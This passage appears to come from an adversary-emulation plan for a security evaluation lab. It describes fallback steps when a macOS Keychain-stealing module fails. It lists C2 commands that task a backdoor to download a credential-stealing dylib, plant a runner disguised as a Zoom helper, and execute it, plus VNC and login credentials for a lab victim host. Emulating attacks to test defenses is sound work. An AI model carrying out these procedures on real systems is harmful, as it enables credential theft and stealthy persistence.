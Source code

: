 ### STRATOFEAR failed/unavailable to load Keychain module

#### :biohazard: Tier 1 Procedures

* If FULLHOUSE.DOORED **is** available:
  * Task FULLHOUSE.DOORED to download the dynamic library (dylib) to `hogshead (10.55.4.50)`:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "libmodule_keychain.dylib", "arg":"/tmp/XYZ.tmp"}'
    ```

  * Task FULLHOUSE.DOORED to give executable permissions to the dylib:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "chmod +x /tmp/XYZ.tmp"}'
    ```

  * Task FULLHOUSE.DOORED to download the runner (mach-o):

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "runnerPath", "arg":"/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-Runner"}'
    ```

  * Task FULLHOUSE.DOORED to give executable permissions to the the runner program:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "chmod +x /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-Runner"}'
    ```

  * Task FULLHOUSE.DOORED to execute the runner with the path (`/tmp/XYZ.tmp`)
  to the dylib:
  **Note** If the runner program is executed with no path provided it's default
  path is `/tmp/ABCDEF.tmp`.

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-Runner -p /tmp/XYZ.tmp"}'
    ```

* If FULLHOUSE.DOORED **is not** available:

  * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate
  a VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
  `encryptpotter.net\ranrok`.

    | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |
